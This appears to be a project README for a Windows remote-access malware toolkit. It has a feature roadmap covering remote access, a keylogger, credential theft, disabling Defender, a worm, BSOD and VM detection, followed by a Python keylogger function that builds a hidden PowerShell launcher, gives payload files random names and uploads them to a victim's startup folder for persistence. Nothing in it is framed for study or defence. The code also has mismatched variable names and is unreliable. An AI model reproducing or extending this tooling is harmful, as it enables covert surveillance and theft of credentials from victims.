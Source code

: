 # Roadmap:
Target Build:
- [x] staging
- [x] remote access
- [x] config file builder [.? extension]

Attacker Build:
- [x] loop user input field
- [x] console build [python3]
- [x] update

Installers:
- [ ] listener option
- [ ] USB RubberDucky
- [ ] BashBunny
- [ ] shortcutting

Modules | Payloads:
- [x] remote console
- [ ] reconnaissance scan
	- web history
	- bookmarks
	- computer info
- [ ] escalation
	- windows account
	- web credentials
	- wifi credentials
- [ ] destroy defender
	- firewall
- [ ] keylogger
	- backspace detection
- [ ] screenshots
- [ ] webcam
- [ ] exfiltration
	- scp
- [ ] file upload
- [ ] worm
	- vbs special 
- [ ] custom desktop shortcuts
- [ ] adware
- [ ] killswitch
- [ ] break pc | bsod
- [ ] payload builder

Extraneous:	
- [ ] port forwarding
- [ ] vm detection
- [x] obfuscation
- [ ] exploit for non priv users


## shell script
```
[+] - confirmation
[-] - denied
[*] - pending
[~] - input
[!] - warning
[!!] - exception
[::] - source
[#(/#)] - numeric option
[@(/@)] - alphanumeric option
```

## keylogger function
```python
# keylogger
def keylogger(address, password, working, startup):
    # file paths
    controller = f"{local_path}/payloads/controller.cmd"
    keylogger = f"{local_path}/payloads/keylogger.ps1"
    scheduler = f"{local_path}/payloads/schedule.ps1"

    # obfuscated files
    obfuscated_controller = random_text() + ".cmd"
    obfuscated_keylogger = random_text() + ".ps1"
    obfuscated_scheduler = random_text() + ".ps1"

    # building controller
    with open(obfuscated_controller, "w") as f:
        f.write("@echo off")
        f.write(f"powershell Start-Process powershell.exe -windowstyle hidden \"{working_direcory}/\"")

    # file staging
    os.system(f"cp {controller} {local_path}/{obfuscated_controller}")
    os.system(f"cp {keylogger} {local_path}/{obfuscated_keylogger}")
    os.system(f"cp {scheduler} {local_path}/{obfuscated_scheduler}")

    # remote upload
    remote_upload(address, password, obfuscated_controller, startup_direcory) # controller
    remote_upload(address, password, obfuscated_keylogger, working_direcory) # keylogger
    remote_upload(address, password, obfuscated_scheduler, working_direcory) # scheduler
```